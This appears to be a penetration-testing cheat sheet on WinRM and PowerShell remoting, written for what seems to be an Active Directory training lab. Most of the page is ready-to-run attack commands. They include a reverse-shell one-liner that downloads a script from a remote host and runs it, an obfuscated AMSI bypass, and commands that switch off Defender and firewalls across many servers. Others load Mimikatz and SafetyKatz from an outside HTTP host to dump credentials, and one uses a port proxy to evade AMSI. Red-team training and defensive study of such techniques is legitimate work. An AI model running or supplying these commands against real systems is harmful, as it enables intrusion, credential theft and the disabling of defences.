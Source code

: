 # WinRM

WinRM stands for Windows Remote Management that allows to perform management tasks on systems remotely, WinRM is available if the port is opened.

WinRM Ports:

* **5985/tcp (HTTP)**
* **5986/tcp (HTTPS)**

Use [PSReadline ](https://github.com/PowerShell/PSReadLine)script to store commands from PowerShell into a clear-text file.

## Enumeration

Find machines with PS Session

[#user-hunting](../ad-enumeration/gnereral.md#user-hunting "mention")

## PS Session

{% hint style="info" %}
PSRemoting uses Windows Remote Management (WinRM) which is Microsoft's implementation of WS-Management.
{% endhint %}

Enable PowerShell Remoting on local system (Requires elevated privileges)

```powershell
Enable-PSRemoting
```

#### Create a session

```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
```

#### Enter existing session

```powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local

# Using session object
Enter-PSSession -Session $sess
```

## Invoke-Command

<pre class="language-powershell"><code class="lang-powershell"># test remoting connection
Invoke-Command -Session $Session -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'
Invoke-Command -Computername Srv01.Security.local -ScriptBlock {Whoami;Hostname}

# Run locally loaded functions on target system
Invoke-Command -Computername Srv01.Security.local -ScriptBlock ${Function:Test-Function}
Invoke-Command -Session $Session -FilePath -ScriptBlock ${Function:Test-Function}

# Load script
Invoke-Command -FilePath 'C:\Tools\Invoke-Mimikatz.ps1' -Session $Session
<strong>Invoke-Command -Computername Srv01.Security.local -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'
</strong>
<strong># Multiple connections
</strong><strong>Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content &#x3C;list_of_servers>) 
</strong></code></pre>

#### Useful script blocks

```powershell
# Language Mode
Invoke-Command -ComputerName <target> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}

# Reverse shell
Invoke-Command -ComputerName Srv01.Security.local -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://<IP>/Shell.ps1')"}

#Bypass AMSI
Invoke-Command -session $Session -ScriptBlock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )}

# Turns off all firewall profiles
Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}

# Turns off Defender and Firewall on multiple systems
Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Set-MPPreference -DisableBehaviorMonitoring $true;`
Set-MPPreference -DisableBlockAtFirstSeen $true;`
Set-MPPreference -DisableEmailScanning $true;`
Set-MPPReference -DisableScriptScanning $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Add-MpPreference -ExclusionPath "C:\Windows\Temp";`
Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}`
-ComputerName (Get-Content c:\Serverlist.txt)
```

## Winrs

```powershell
winrs -r:dcorp-mgmt 'whoami & hostname'
winrs -r:server1 -u:server1\administrator -p:Pass@1234 'hostname' # With creds
```

To run any APT tools to the victim machines. It's advised not to store the file as it will be detected by the ASMI. Directly load it into the memory to run it.

```powershell
# Will be detected by ASMI
winrs -r:dcorp-mgmt "cmd /c <remote_file_path> -path HTTP://<ip>/SafetyKatz.exe sekurlsa::evasive-keys exit"
```

Check [transfer-files.md](../misc/transfer-files.md "mention") to get to know more about transfering the files. Use winrs like below to evade ASMI.

```powershell
# Setup proxy
$null | winrs -r:dcorp-mgmt “netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.1”
# Transfer files
$null | winrs -r:dcorp-mgmt “cmd /c <path_to_tool> -path HTTP://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit”
```
